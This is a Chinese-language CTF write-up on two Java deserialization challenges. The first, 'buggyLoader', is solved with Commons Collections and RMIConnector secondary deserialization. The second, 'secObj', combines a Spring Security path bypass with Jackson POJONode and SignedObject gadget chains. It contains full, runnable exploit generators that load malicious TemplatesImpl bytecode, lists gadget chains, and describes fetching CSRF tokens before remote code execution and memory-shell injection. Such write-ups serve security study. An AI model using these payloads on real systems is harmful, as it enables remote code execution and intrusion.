[https://github.com/waderwu/javaDeserializeLabs](https://github.com/waderwu/javaDeserializeLabs)

### 考点分析

1.  Java 代码审计
2.  Java RMIConnector 二次反序列化

对传进来的 data 参数进行了 hex 的处理，处理过后用自定义的`MyObjectInputStream`​来处理字节，然后满足属性直接反序列化

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227200101-e07f8254-d567-1.png)

先来看看​`hexStringToBytes`​

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227200113-e716dc16-d567-1.png)

就是个 hex 解码而已

然后看自定义的`MyObjectInputStream`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227200127-effab1fe-d567-1.png)

可以看到重写了 resolveClass 方法，使用了`URLClassLoader.loadClass()`​而非默认的`Class.forName()`​去加载类

### 关于 ResolveClass

在 Java 中，当使用`ObjectInputStream`​进行反序列化时，`resolveClass()`​方法会默认被调用，其作用就是对类进行验证和加载，具体来说，当反序列化一个对象时，如果该对象包含的类尚未被加载，那么`ObjectInputStream`​就会调用`resolveClass()`​方法来加载该类。resolveClass() 方法的默认实现会使用当前线程的上下文`ClassLoader`​来加载类，即`Class.forName()`​

另外，`resolveClass()`​方法还可以用于防止恶意攻击，比如通过序列化和反序列化来注入恶意代码或者执行非法操作。通过在​`resolveClass()`​方法中实现自定义的安全检查逻辑，做一些过滤处理，例如过滤一些危险类 JNDI、RMI、TemplatesImpl 等，可以有效地增强反序列化的安全性。

### 依赖

查看下依赖，可以发现存在 CC 的依赖，那么直接打 CC 就好了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227200142-f8e38246-d567-1.png)

### 坑点

但是`URLClassLoader.loadClass()`​跟默认的`Class.forName()`​有啥区别呢？

区别在于`URLClassLoader.loadClass()`​不能够加载数组，举个例子：

```plain
public class test {
    public static void main(String[] args) throws Exception{
        System.out.println(Class.forName("[[B"));  // class [[B
        System.out.println(URLClassLoader.getSystemClassLoader().loadClass("[[B"));  // ClassNotFoundException
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227200156-012257de-d568-1.png)

那么既然是因为这个，所以我们的数组的 payload 就无法使用了，因为在打 CC 的过程当中基本都会带上`ChainedTransformer`​来链式调用，或者在最后的 Sink 的点的时候会用到`TemplatesImpl`​来加载`byte[][]`​字节码，但是这里就都没办法使用了，当然了不使用`ChainedTransformer`​链式调用一个一个手动来触发也是可以的，但是因为存在`RMIConnector`​进行二次反序列化会更加方便，因为我们可以只需要单`InvokerTransformer`​来进行反射调用`connect()`​方法即可，那么写出 EXP

```plain
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.remote.JMXServiceURL;
import javax.management.remote.rmi.RMIConnector;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class buggyLoader {
    public static void setFieldValue(Object obj,String fieldname,Object value)throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(obj,value);
    }

    public static HashMap getObject() throws Exception{
        //cc6的HashMap链
        byte[] payloads = Files.readAllBytes(Paths.get("D:\\Security-Testing\\Java-Sec\\Java-Sec-Payload\\target\\classes\\Evail_Class\\Calc_Ab.class"));
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{payloads});
        setFieldValue(obj, "_name", "a");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        Transformer transformer = new InvokerTransformer("newTransformer", new Class[]{}, new Object[]{});

        HashMap<Object, Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map, new ConstantTransformer(1));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, obj);


        HashMap<Object, Object> expMap = new HashMap<>();
        expMap.put(tiedMapEntry, "test");
        lazyMap.remove(obj);

        setFieldValue(lazyMap,"factory", transformer);

        return expMap;
    }
    public static String bytesTohexString(byte[] bytes) {
        //题目要求16进制
        if (bytes == null)
            return null;
        StringBuilder ret = new StringBuilder(2 * bytes.length);
        for (int i = 0; i < bytes.length; i++) {
            int b = 0xF & bytes[i] >> 4;
            ret.append("0123456789abcdef".charAt(b));
            b = 0xF & bytes[i];
            ret.append("0123456789abcdef".charAt(b));
        }
        return ret.toString();
    }

    public static void main(String[] args) throws Exception {
        //获取exp的base64编码
        ByteArrayOutputStream tser = new ByteArrayOutputStream();
        ObjectOutputStream toser = new ObjectOutputStream(tser);
        toser.writeObject(getObject());
        toser.close();

        String exp= Base64.getEncoder().encodeToString(tser.toByteArray());

        //创建恶意的RMIConnector
        JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi://");
        setFieldValue(jmxServiceURL, "urlPath", "/stub/"+exp);
        RMIConnector rmiConnector = new RMIConnector(jmxServiceURL, null);

        //使用InvokerTransformer 调用 connect 方法
        InvokerTransformer invokerTransformer = new InvokerTransformer("connect", null, null);

        HashMap<Object, Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map, new ConstantTransformer(1));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, rmiConnector);

        HashMap<Object, Object> expMap = new HashMap<>();
        expMap.put(tiedMapEntry, "test");
        lazyMap.remove(rmiConnector);

        setFieldValue(lazyMap,"factory", invokerTransformer);

        //序列化
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeUTF("SJTU");
        oos.writeInt(1896);
        oos.writeObject(expMap);
        oos.close();
        System.out.println(bytesTohexString(baos.toByteArray()));
    }
}
```

在序列化的时候加入他的属性即可成功 RCE

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227200614-9afa4ef2-d568-1.png)

## 2023 浙江省赛 secObj

考点：

1.  Spring Security 权限绕过 (设计缺陷)
2.  Java 代码审计

给了 jar，看目录结构如下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227200632-a569e988-d568-1.png)

### 权限绕过

配置文件是端口，发现存在 SecurityConfig 先看这个

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227200643-ac3ab512-d568-1.png)

发现使用的`antMatcher`​的匹配方式并且后面并不是`/**`​直接随便绕过

因为在`antMatcher`​中 `/admin/*`​实际上只匹配一层资源，也就是只能匹配到`admin.do`​这样或者直接路由为`/admin`​这样

但是很神奇的事情发生了，`admin`​仅仅是根路由，并不是直接映射的 (我感觉是出题人设计缺陷吧)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227200657-b48de32e-d568-1.png)

直接访问`/admin/user/hello`​即可

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227200705-b92b0da8-d568-1.png)

### 审计分析

其实有代码的就这个路由，传入一个 data，使用自定义的反序列化写法进行反序列化

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227200714-be5a62ce-d568-1.png)

跟进下`MyObjectInputStream`​，一样是重写了​`resolveClass`​

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227200723-c3b23684-d568-1.png)

禁用了这些关键字

```plain
private static final String[] blackList = new String[]{"AbstractTranslet", "Templates", "TemplatesImpl", "javax.management", "swing", "awt", "fastjson"};
```

那么接下来就是来看怎么打反序列化了，存在以上黑名单而且发现只有一个 jackson 依赖可以利用，JDK 自带的`TemplatesImpl`​也被过滤了，所以想到二次反序列化，那么问题就变成如何触发 getter 了

### 二次反序列化

上面也讲到存在 jackson 关键依赖，所以我们就可以用 jackson 中的`POJONode`​来调用 getter 方法来触发 SignedObject 的二次反序列化

但是这里遇到一个问题，二次打什么链呢？这里其实就是归结于如何调用 getter 的方法了，而这里的环境都是自带的 jdk+spring，所以说多也不算多说少也不算少的方法，以下就写出方式的调用链 (其实就是 1 2 3 排列组合为 113 223 123 这样子)，就写出一种 EXP

#### 方法一

```plain
HashMap#readObject() -> HashMap#putVal() -> HotSwappableTargetSource#equals() -> XString#equals() -> ToStringBean#toString() ->POJONode#toString() -> SignedObject#getObject() -> BadAttributeValueExpException#readObject() -> BaseJsonNode#toString() -> TemplatesImpl#getOutputProperties()
```

#### 方法二

```plain
BadAttributeValueExpException#readObject() -> ToStringBean#toString() ->POJONode#toString() -> SignedObject#getObject() -> BadAttributeValueExpException#readObject() -> BaseJsonNode#toString() -> TemplatesImpl#getOutputProperties()
```

#### 方法三

```plain
HashMap#readObject() -> HashMap#putVal() -> HotSwappableTargetSource#equals() -> XString#equals() -> ToStringBean#toString() ->POJONode#toString() -> SignedObject#getObject() -> HashMap#readObject() -> HashMap#putVal() -> HotSwappableTargetSource#equals() -> XString#equals() -> ToStringBean#toString() ->POJONode#toString()  -> TemplatesImpl#getOutputProperties()
```

```plain
import MenShell.SpringMemShell;
import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xpath.internal.objects.XString;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;
import org.springframework.aop.framework.AdvisedSupport;
import org.springframework.aop.target.HotSwappableTargetSource;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.*;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.security.*;
import java.util.Base64;
import java.util.HashMap;

public class SignedObjectBAVEPoC {
    public static void main(String[] args) throws Exception {

        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass0 = pool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = ctClass0.getDeclaredMethod("writeReplace");
        ctClass0.removeMethod(writeReplace);
        ctClass0.toClass();


        byte[] payloads = Files.readAllBytes(Paths.get("D:\\Security-Testing\\Java-Sec\\Java-Sec-Payload\\target\\classes\\Evail_Class\\Calc_Ab.class"));
        Templates templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl, "_bytecodes", new byte[][]{payloads});
        setFieldValue(templatesImpl, "_name", "aaaa");
        setFieldValue(templatesImpl, "_tfactory", null);

        POJONode po1= new POJONode(makeTemplatesImplAopProxy(templatesImpl));
        BadAttributeValueExpException ba1= new BadAttributeValueExpException(1);
        setFieldValue(ba1,"val",po1);

        KeyPairGenerator keyPairGenerator = KeyPairGenerator.getInstance("DSA");
        keyPairGenerator.initialize(1024);
        KeyPair keyPair = keyPairGenerator.genKeyPair();
        PrivateKey privateKey = keyPair.getPrivate();
        Signature signingEngine = Signature.getInstance("DSA");
        SignedObject signedObject = new SignedObject( ba1, privateKey, signingEngine);

        POJONode jsonNodes = new POJONode(1);
        setFieldValue(jsonNodes,"_value",signedObject);
        HotSwappableTargetSource hotSwappableTargetSource1 = new HotSwappableTargetSource(jsonNodes);
        HotSwappableTargetSource hotSwappableTargetSource2 = new HotSwappableTargetSource(new XString("1"));
        HashMap hashMap = makeMap(hotSwappableTargetSource1, hotSwappableTargetSource2);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(barr);
        objectOutputStream.writeObject(hashMap);
        objectOutputStream.close();

        String res = Base64.getEncoder().encodeToString(barr.toByteArray());
        System.out.println(res);
    }

    public static Object makeTemplatesImplAopProxy(Templates templates) throws Exception {
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(templates);
        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);
        Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Templates.class}, handler);
        return proxy;
    }
    private static void setFieldValue(Object obj, String field, Object arg) throws Exception{
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, arg);
    }
    public static HashMap<Object, Object> makeMap (Object v1, Object v2 ) throws Exception {
        HashMap<Object, Object> s = new HashMap<>();
        setFieldValue(s, "size", 2);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));
        setFieldValue(s, "table", tbl);
        return s;
    }
}
```

### 坑点

这里打过去的时候发现竟然报了 403，可是就算没鉴权也应该是 401 才对

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227200756-d7af7e80-d568-1.png)

其实这里返回 403 的原因实际上是`Spring Security`​默认会开启 csrf 验证，如果要手动关闭这个 CSRF 的校验需要写入以下代码

```plain
http.csrf().disable()
```

那么这里默认是开启的，所以我们需要去登录的接口处拿到我们的对应的 Session+CSRFtoken 才可以访问该路由

访问`/login`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227200806-dd5011d8-d568-1.png)

得到结果为

```plain
JSESSIONID=B2F26059AB6C4FF450F5CA7B8D1C9FDE;
_csrf=f25909d7-6384-4a3f-869e-9831e7f4de99
```

然后带着 Cookie+csrf 就可以 RCE 了，接下来就是直接打内存马的事情了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227203141-2922cbc0-d56c-1.png)
